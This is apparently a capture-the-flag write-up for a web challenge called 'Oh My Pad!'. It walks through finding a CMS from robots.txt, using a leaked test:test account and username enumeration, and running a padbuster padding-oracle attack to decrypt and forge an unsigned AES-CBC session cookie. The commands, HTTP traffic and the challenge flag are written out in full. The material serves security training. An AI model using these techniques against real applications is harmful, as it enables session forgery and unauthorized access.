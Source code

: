 ## Oh My Pad!

### Description

> The third-party developers of The Fancy Company left their bepoke content management console lying around. Find it and gain elevated access to it!

### Solution

Solving the challenge requires three steps. 

#### 1. Find the CMS login page

First, the dev console must be found in `/cms`. This is easily achieved by an educated guess from the challenge description or by observing the robots.txt file:

```
/robots.txt:

User-agent: *
Disallow: /cms/
```

Here we can find a login page for 'The Fancy Company CMS'


#### 2. Enumerate a valid user

By accessing the CMS URL, the challengee is presented with a simple login form expecting username and password. The page source code revelas some useful information left in the HTML comments by the developers:

```
<!--
    CHANGES v.11.2018:
        - kmccormick: Upgraded to jQuery 2.1.1 
        - kmccormick: fixed bugs: BUG-10283 and BUG-10211
        - ecartman: added test account (test:test) currently set without any privileges

    ROADMAP v.04.2019:
        - Current bespoke session implementation (using aes-cbc w/o signing) should be improved. Consider migrating to "express-session".
        - add self-registration for trial users
        - upgrade node.js (check with kbroflowski)
-->
```

The relevant information found here is:
  - A test user account (username and password `test`)
  - User names of developers (kmccormick, ecartman, kbroflowski)
  - The current CMS session implementation uses AES-CBC without any signing of the payload. 

#### 3. Gaining high-privileged authenticated access to the CMS

The validity of the aforementioned developer names can be confirmed via the login page. For invalid login names, the app returns the message "Invalid User". If the user name does exist in the app but an incorrect password was provided, the app returns "Invalid Password" instead.

Upon authentication with the test user account, the challenge can observe the session that is created and returned in a cookie:

```
POST /login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/cms/
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Connection: close
Cookie: SESSION=79FCC8DB63D3D2134067998A71FE2C3456F598FDA4FA50ADBBD9719BC696F7F397070A4DED025684D02B91BDD61EB783CF44E06EE3D35C8B36AEDAEC4D0DC81B
Upgrade-Insecure-Requests: 1

user=test&pass=test

HTTP/1.1 302 Found
X-Powered-By: Express
Set-Cookie: SESSION=39AE004427F6A2E472811C3D793D6852D944E5302F1AF9ADBB0D51BCA5CD91AC62870DEF239A113D0283FD12325DFCB6861912E229417D1B89752E516622E13E; path=/; httponly
Location: /portal
Vary: Accept
Content-Type: text/html; charset=utf-8
Content-Length: 58
Date: Mon, 21 Jan 2019 09:22:57 GMT
Connection: close

<p>Found. Redirecting to <a href="/portal">/portal</a></p>
```


With that session cookie, an authenticated user cann access the CMS portal page which only presents them with the string "Hello test".

Knowing that the session token is generated using AES-CBC and no signature to veritfy the integrity, the challengee can tamper with the ciphertext.

They will soon discover that there are 3 possible outcomes:

  1. The session token is valid and the greeting text in the portal is displayed
  2. The session token is invalid, the app will redirect the user to the login page
  3. The session token could not be decrypted by the app and and error is thrown

Providing that case (3) arose after tampering with the ciphertext but not changing any of its length, it is fair to assume that the error was caused due to some padding issues. The title of the challenge is also hinting this. 

The 3 different outcomes observed earlier all1ow tampering with the the Padding to reveal the plain text of the session token. A popular tool to carry out such Padding Oracle attacks is padbuster (https://github.com/GDSSecurity/PadBuster) 

```
$ perl padbuster.pl http://127.0.0.1/portal 39AE004427F6A2E472811C3D793D6852D944E5
302F1AF9ADBB0D51BCA5CD91AC62870DEF239A113D0283FD12325DFCB6861912E229417D1B89752E516622E13E 16 -cookies SESSION=39AE004427F6A2E472811C3D793D6852D944E
5302F1AF9ADBB0D51BCA5CD91AC62870DEF239A113D0283FD12325DFCB6861912E229417D1B89752E516622E13E -encoding 2

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 11

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 3 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     20      /
2 **    255     500     38      N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

{...snip...}

Block 3 Results:
[+] Cipher Text (HEX): 861912e229417d1b89752e516622e13e
[+] Intermediate Bytes (HEX): 4ce368e22e971c300f8ef01f3f50f1bb
[+] Plain Text: .de

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): baced09eec5e087d|test|test@nviso.de

[+] Decrypted value (HEX): 626163656430396565633565303837647C746573747C74657374406E7669736F2E64650D0D0D0D0D0D0D0D0D0D0D0D0D

[+] Decrypted value (Base64): YmFjZWQwOWVlYzVlMDg3ZHx0ZXN0fHRlc3RAbnZpc28uZGUNDQ0NDQ0NDQ0NDQ0N
```


The decrypted session token value is:

`baced09eec5e087d|test|test@nviso.de`

Is is comprised of three parts each separated with `|`. A difficulty here might be interpreting the components. When decrypting several tokens it would be evident that the first part is solely a nonce that has no further relevancy. The username in the middle refers to the user’s login name and is the crucial part. 

Using padbuster, plaintext can also be encrypted. With the knowledge of valid usernames confirmed in step 3, the following plaintext should be encrypted (any of the other valid login names work as well):

`baced09eec5e087d|kbroflowski|test@nviso.de`

```
perl padbuster.pl http://127.0.0.1/portal 39AE004427F6A2E472811C3D793D6852D944E5302F1AF9ADBB0D51BCA5CD91AC62870DEF239A113D0283FD12325DFCB6861912E229417D1B89752E516622E13E 16 -cookies SESSION=39AE004427F6A2E472811C3D793D6852D944E5302F1AF9ADBB0D51BCA5CD91AC62870DEF239A113D0283FD12325DFCB6861912E229417D1B89752E516622E13E -encoding 2 -plaintext "baced09eec5e087d|kbroflowski|tes
t@nviso.de"

{...snip...}

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 5C91F48DB75CD99880E8E72A5A92452C36D67081213E6E0D49ECC9D5D66E879807DF9582875C1F29713D78C6E3DA1B9500000000000000000000000000000000
```

The new session token is used with the app, grants authenticated developer access and thus reveals the tropy:


```
GET /portal HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/cms/
Connection: close
Cookie: SESSION=5C91F48DB75CD99880E8E72A5A92452C36D67081213E6E0D49ECC9D5D66E879807DF9582875C1F29713D78C6E3DA1B9500000000000000000000000000000000
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 44
ETag: W/"2c-Q/m8ca3L0kM24yaoDyWCk85e73c"
Date: Mon, 21 Jan 2019 09:59:00 GMT
Connection: close

Hello kbroflowski!<br/> Trophy: [...]
```


### Flag
`CSC{e7e03bf87f1dc209972aa47963d40cfa}`


### Creator
Nico Leidecker

